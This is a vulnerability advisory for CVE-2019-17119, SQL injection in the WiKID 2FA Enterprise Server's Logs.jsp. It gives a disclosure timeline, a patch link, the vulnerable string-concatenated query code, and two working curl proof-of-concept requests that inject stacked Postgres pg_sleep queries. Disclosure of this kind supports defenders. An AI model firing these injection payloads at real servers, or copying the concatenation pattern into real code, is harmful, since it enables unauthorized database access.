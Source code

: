 Multiple SQL Injection vulnerabilities, CVE-2019-17119, were identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2053`.  The <var>substring</var> and <var>source</var> parameters, used by **Logs.jsp**, are not sanitized thus allowing an authenticated user to create, read, update, or delete arbitrary information in the database.  

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Reviewing the source code for **Logs.jsp** revealed the following code blocks:

~~~
192     private String createSourceFilter(HttpServletRequest request) {
193         String source = getLogConfig(request).get("source");
194         if (source == null || "None".equals(source)) {
195             return " ";
196         }
197         return " and logger_name = '" + source + "' ";
198     }
199 
200     private String createSubStringFilter(HttpServletRequest request) {
201         String subString = getLogConfig(request).get("subString");
202         if (subString == null || subString.trim().length() == 0) {
203             return " ";
204         }
205         return " and rendered_message like '%" + subString + "%' ";
206     }
~~~

`createSourceFilter` reads the <var>source</var> parameter and includes the value in a query being constructed; `createSubStringFilter` reads the <var>substring</var> parameter and includes the value in a query that is being constructed.

The following queries can be used to demonstrate the parameters are vulnerable, the queries take advantage of Postgres Stacked Queries and issue a secondary request that causes the database and application to delay for 5+ seconds:

~~~
time curl --output /dev/null -s -k -H "Cookie: JSESSIONID=$COOKIE" --data-binary "source='; select pg_sleep(5);--" https://$RHOST/WiKIDAdmin/Log.jsp

real    0m10.572s
user    0m0.008s
sys     0m0.016s
~~~

~~~
time curl --output /dev/null -s -k -H "Cookie: JSESSIONID=$COOKIE" --data-binary "subString='; select pg_sleep(5);--" https://$RHOST/WiKIDAdmin/Log.jsp

real    0m10.572s
user    0m0.008s
sys     0m0.016s
~~~

